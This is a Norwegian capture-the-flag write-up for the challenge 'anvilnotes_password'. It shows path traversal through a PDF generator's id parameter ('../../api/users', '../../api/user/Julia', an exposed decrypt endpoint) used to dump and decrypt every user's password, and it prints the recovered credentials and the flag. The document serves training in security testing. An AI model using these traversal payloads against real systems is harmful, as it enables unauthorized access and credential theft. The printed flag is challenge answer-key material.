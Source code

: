 # 2.04_anvilnotes_password

Får nå logget inn som admin og kan kjøre genpdf kommandoen. Prøver å kjøre mange forskjellige id'er men finner ingenting. Prøver å google generatoren `WeasyPrint 56.1` men ingen av exploitsa der fungerer. Fant utav at jeg kunne kjøre `id=/1` så virker som det var noe path greier. Er notene hardfiler? 

Prøvde etter mye om og men og kanskje flere dager på omveier hvor jeg ikke så det åpenlyse. Fikk hint om å se mer på id'en og hev kjapt inn path traversal med tanke på at jeg husket at den godtok jo mer en nummer. Så `id=../../` fikk da opp swagger docs på en api server eller noe. Prøvde å kjøre noen av disse og fikk ut en liste me brukere på `../..//api/users`

```
[
	"admin", "admiN", "Benjamin", "Brian", "Cynthia", "Frank", "George", "Henry", "Jason", "Julia", "Karen",
	"Laura", "Marilyn", "Mark", "Mary", "Olivia", "oper", "Richard", "Russell", "Samuel", "Sharon",
	"Stephen", "test", "Theresa"
]
```

Kunne da kjøre og hente passordet dems med `../../api/user/Julia`

```
{
	"password": "99e921a104ff65171e8314f25f9807e20148ca0824b3d54f6864da7d85a083cdef01f1881d4ded47d66f21858f2b53330f59428cc377719da0e34150",
	"username": "Julia"
}
```

Så kunne jeg ta følgende for å få passordet i klartekst: `../../api/decrypt?data=PASSWORD`

```
gummy chevron rubdown pastel
```

Lagde da [anvilnotes_extract_passwords.js](anvilnotes_extract_passwords.js)

```
└─$ node anvilnotes_extract_passwords.js 
admin = FLAGG: 20c6cf2790e978f4afda631d24651732
admiN = admin
Benjamin = control unlatch conceal napped
Brian = stumble truce pantomime eaten
Cynthia = pulse aerospace multiple oppose
Frank = squeezing agreeably smashup darkish
George = monopoly handpick runner caress
Henry = esophagus proactive fragrant riverbank
Jason = cola oxidize spur famine
Julia = gummy chevron rubdown pastel
Karen = stumbling neon passport umpire
Laura = entourage setback simile sappy
Marilyn = chafe sitting docile synopses
Mark = fetal alias payment unbent
Mary = letter viselike freewill litigator
Olivia = untamed duty whiny improve
oper = FLAGG: 20c6cf2790e978f4afda631d24651732
Richard = subtly upward expose unmixed
Russell = vendor immature disbelief throwing
Samuel = perfected humorist enlighten constrict
Sharon = backlight luckiness sabotage virtuous
Stephen = perfume preachy everyday octane
test = test
Theresa = justify pranker stinging lard
```

Og der kom et flagg.

```
Kategori: 2. Oppdrag
Oppgave:  2.04_anvilnotes_password
Svar:     20c6cf2790e978f4afda631d24651732
Poeng:    10

Hvis aktøren har benyttet denne tjenesten finner vi kanskje noen interessante notater.
```
